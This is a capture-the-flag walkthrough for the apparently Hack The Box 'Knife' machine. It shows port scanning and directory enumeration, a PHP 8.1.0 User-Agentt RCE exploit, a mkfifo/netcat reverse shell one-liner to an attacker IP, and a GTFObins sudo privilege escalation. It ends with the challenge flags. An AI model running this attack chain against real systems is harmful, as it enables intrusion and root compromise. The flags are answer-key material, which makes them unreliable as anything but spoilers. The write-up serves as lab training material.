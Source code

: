 # Knife - Easy

```shell
nmap -T4 -p- -A -v 10.10.10.242

feroxbuster -u http://10.10.10.242 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#get user-agentt rce exploit
python3 user-agentt.py
#enter webpage url

#we get shell
id

#setup listener on attacker machine
nc -nvlp 5555

#in reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.3 5555 >/tmp/f

#we get another reverse shell on attacker machine
sudo -l

#exploit from GTFObins
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'

id
#we are root
```

* Open ports & services:

  * 22
  * 80

* We do not have any other directories enumerated using feroxbuster.

* Using Wappalyzer, we can see that the PHP version used for webpage is 8.1.0

* Searching for exploits for this version gives us a 'User-Agentt' RCE exploit.

* With the help of this exploit, we get shell as james; this shell is not interactive enough so we can setup a listener on our machine, and get another shell.

* Now, checking sudo permissions, we can run knife binary as sudo without password.

* With the help of GTFObins exploit, we can use that to get root shell.

```markdown
1. User flag - ed9dea4830dac4298fa78bc33310d207

2. Root flag - 428d894c9ec3f5543ce834865db7b60a
```
